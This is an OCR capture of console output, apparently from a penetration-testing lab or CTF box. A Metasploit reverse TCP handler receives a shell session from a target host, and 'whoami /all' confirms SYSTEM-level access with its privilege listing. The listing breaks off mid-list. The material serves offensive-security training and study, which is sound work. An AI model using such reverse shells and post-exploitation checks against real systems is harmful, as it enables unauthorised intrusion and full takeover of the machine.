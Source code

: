 [*] Started reverse TCP handler on 10.10.15.74:55541 
[*] Command shell session 5 opened (10.10.15.74:55541 -> 10.10.10.193:64733) at 2020-09-26 17:26:09 -0400

C:\temp>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeCreateTokenPrivilege                    Create a token object                                              Disabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled